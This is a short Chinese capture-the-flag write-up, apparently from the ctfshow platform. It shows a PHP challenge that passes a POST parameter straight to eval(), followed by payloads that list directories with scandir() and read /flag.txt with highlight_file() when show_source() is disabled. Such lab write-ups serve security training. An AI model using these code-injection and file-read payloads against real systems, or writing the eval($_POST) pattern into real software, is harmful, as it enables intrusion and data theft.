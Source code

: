 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```





同上题

但是尝试读源码时提示flag不在flag.php

![image-20250404161214501](./assets/image-20250404161214501.png)





参考无参rce

```
c=var_dump(scandir(getcwd()));
```

![image-20250404161258208](./assets/image-20250404161258208.png)

扫描根目录

![image-20250404161313207](./assets/image-20250404161313207.png)

![image-20250404161327833](./assets/image-20250404161327833.png)

存在flag.txt

读取

```
c=show_source("/flag.txt");
```

![image-20250404161403660](./assets/image-20250404161403660.png)

但是show_source()被禁用

highlight_file()

```
c=highlight_file("/flag.txt");
```

![image-20250404161436343](./assets/image-20250404161436343.png)